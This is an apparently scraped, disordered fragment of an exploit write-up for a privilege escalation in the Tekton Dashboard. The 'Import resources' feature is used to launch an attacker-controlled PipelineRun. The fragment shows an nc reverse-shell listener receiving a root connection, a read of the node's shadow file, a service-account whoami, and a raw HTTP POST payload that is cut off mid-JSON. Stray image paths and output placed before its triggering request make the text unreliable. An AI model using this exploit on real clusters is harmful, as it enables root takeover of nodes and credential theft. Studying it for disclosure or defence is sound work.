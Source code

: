 ```
  phase: Active

```

# Backup

└─$ nc -klnvp 8000                                                                                                                                 130 ⨯
Listening on 0.0.0.0 8000
Connection received on 192.168.49.2 42195
id
uid=0(root) gid=0(root) groups=0(root),10(wheel)
cat /var/noderoot/etc/shadow
root:*:19840:0:99999:7:::
daemon:*:19840:0:99999:7:::
bin:*:19840:0:99999:7:::
sys:*:19840:0:99999:7:::
sync:*:19840:0:99999:7:::
games:*:19840:0:99999:7:::
man:*:19840:0:99999:7:::
lp:*:19840:0:99999:7:::
mail:*:19840:0:99999:7:::


```
└─$ ./kubectl-patch auth whoami --server='http://tekton-dashboard:9097'
ATTRIBUTE                                      VALUE
Username                                       system:serviceaccount:tekton-pipelines:tekton-dashboard
UID                                            157053df-210e-46cd-8932-7b898348e22e
Groups                                         [system:serviceaccounts system:serviceaccounts:tekton-pipelines system:authenticated]
Extra: authentication.kubernetes.io/pod-name   [tekton-dashboard-7dcdbc4f54-kqggl]
Extra: authentication.kubernetes.io/pod-uid    [30265944-5df4-45f7-9f81-8e8a3cd1fa60]
```
The "Import resources" functionality creates a new attacker-controlled pipelinerun. The following request triggers said pipelinerun including a reverse shell with root privileges (actual node root privileges). Additionaly the nodes file system is mounted inside the pod at /var/noderoot

For editing, the yaml version of the payload is more convenient. In the web dashboard visit PipelineRuns > Create > YAML Mode to create a new run:

```
POST /apis/tekton.dev/v1/namespaces/tekton-dashboard/pipelineruns/ HTTP/1.1
Host: 127.0.0.1:9097
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Type: application/json
Tekton-Client: tektoncd/dashboard
Content-Length: 983
Connection: close

{
    "apiVersion": "tekton.dev/v1",
    "kind": "PipelineRun",
    "metadata": {
        "annotations": {},
        "generateName": "import-resources-1716387335999-",
        "labels": {
            "dashboard.tekton.dev/import": "true"
        },
        "namespace": "tekton-dashboard"
    },
    "spec": {
        "pipelineSpec": {
            "tasks": [
```